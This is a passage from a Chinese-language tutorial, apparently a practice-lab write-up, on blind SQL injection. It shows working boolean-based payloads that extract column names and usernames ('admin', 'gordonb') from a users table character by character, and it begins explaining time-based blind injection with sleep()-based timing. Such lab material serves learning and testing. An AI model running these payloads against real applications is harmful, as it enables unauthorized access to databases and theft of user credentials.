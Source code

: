 第四列列名第一个字母为`u`，有点接近我们的目标了，下面直接猜`s`，`e`，`r`

```sql
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),2,1))=115# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),3,1))=101# 存在
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 3,1),4,1))=114# 存在
```

可见我们的推理成功，第四列列名为`user`
同理可得第五列列名为`password`

### 8.爆出数据

判断出`user`第一个字段长度为`5`:

```sql
1' and (select length(user) from users where user_id=1)=5#
1
判断出第一个用户:
1' and ascii(substr((select user from users limit 0,1),1,1))=97#    a
1' and ascii(substr((select user from users limit 0,1),2,1))=100#    d
1' and ascii(substr((select user from users limit 0,1),3,1))=109#    m
1' and ascii(substr((select user from users limit 0,1),4,1))=105#    i
1' and ascii(substr((select user from users limit 0,1),5,1))=110#    n
```

第二个用户

```sql
1' and ascii(substr((select user from users limit 1,1),1,1))=103#    g
1' and ascii(substr((select user from users limit 1,1),2,1))=111#    o
1' and ascii(substr((select user from users limit 1,1),3,1))=114#    r
1' and ascii(substr((select user from users limit 1,1),4,1))=100#    d
1' and ascii(substr((select user from users limit 1,1),5,1))=111#    o
1' and ascii(substr((select user from users limit 1,1),6,1))=110#    n
1' and ascii(substr((select user from users limit 1,1),7,1))=98#    b
```

## 基于时间的SQL盲注

### 前言

由于要使用到基于时间的盲注，但是我觉得基于时间的盲注其实就是基于布尔的盲注的升级版，所以我想顺便把基于布尔的盲注分析总结了；

首先我觉得基于时间的盲注和基于布尔的盲注的最直观的差别就是“参照物”不同，也就是说基于布尔的盲注，其实是可以通过页面的一些变化来进行判断结果！但是有的时候，执行一些sql语句的测试，页面不会有像布尔盲注的时候比较直观的变化，所以这个时候所谓的基于时间的盲注，也就是在基于布尔的盲注上结合if判断和sleep（）函数来得到一个时间上的变换延迟的参照，也就可以让我们进行一些判断。

### 获取数据库名的长度

**构造的sql语句**：

```sql
1’ and （length(database())）> 5#
```
